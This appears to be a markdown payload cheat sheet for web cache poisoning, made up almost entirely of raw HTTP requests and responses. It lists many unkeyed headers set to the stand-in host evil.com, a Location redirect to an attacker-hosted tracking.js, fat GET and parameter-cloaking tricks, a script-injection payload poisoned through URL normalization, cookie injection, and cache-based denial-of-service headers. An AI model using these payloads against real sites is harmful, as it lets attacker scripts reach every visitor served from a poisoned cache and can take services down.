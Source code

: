 # Cache Poisoning

> Header Response: X-Cache: hit, Body Response: evil.com

## Header Inject
```http
X-Forwarded-Host: evil.com
X-Forwarded-Scheme: nothttps
X-Forwarded-Server: evil.com
X-Host: evil.com
\: evil.com
User-Agent: evil.com
X-Original-Url: evil.com
X-Forwarded-Proto: evil.com
X-Original-URL: evil.com
X-Get-Cache-Key: evil.com
Accept-Version: evil.com
Acunetix-Header: evil.com
Api-Version: evil.com
Fastly-Client-Ip: evil.com
Fastly-Ff: evil.com
Fastly-Host: evil.com
Fastly-Ssl: evil.com
Trailer: evil.com
X-Amz-Server-Side-Encryption: evil.com
X-forwarded-Prefix: evil.com
X-Original-Host: evil.com
Handle: evil.com
X-Rewrite-url: evil.com
Authorization: evil.com
X-Amz-website-Redirect-Location: evil.com
X-Http-Method-Override: evil.com
X-Forwarded-Proto: evil.com
Capitalized host header: evil.com
Content-Type: evil.com
```
### Location Attack
```http
Header Request
X-Forwarded-Scheme: http
X-Forwarded-Prefix: evil.com
```
```http
Header Response
Location: http://evil.com/tracking.js
```

### Fat GET Request
```http
GET /js/geolocate.js?callback=setCountryCookie
callback=arbitraryFunction
```
```http
HTTP/1.1 200 OK
BODY
arbitraryFunction({"country" : "United Kingdom"})
```

### Parameter Cloaking
```http
GET /?example=123?excluded_param=bad-stuff-here
```
### Parameter Parsing Quirks
```http
GET /?keyed_param=abc&excluded_param=123;keyed_param=bad-stuff-here
```
### URL Normalization
```http
GET /random</p><script>alert(1)</script>
```
```http
HTTP/1.1 404 not found
BODY
<p>
  File /random not found
</p>
</p>
  <script>alert(1)
</script>
```

## Cookie Inject
```http
Cookie: feHost=something/evil.com
```

## DOS attack
```http
X-Forwarded-Port: 123
X-Forwarded-Port: 123 
Transfer-Encoding: 123
zTRANSFER-ENCODING: dgsht --> HTTP/1.1 501 NOT_IMPLEMENTED
```
```http
Header Response
HTTP/2 400
X-Cache: hit
```

## Burp Suite Extension

Guess Headers!

Guess Everything!
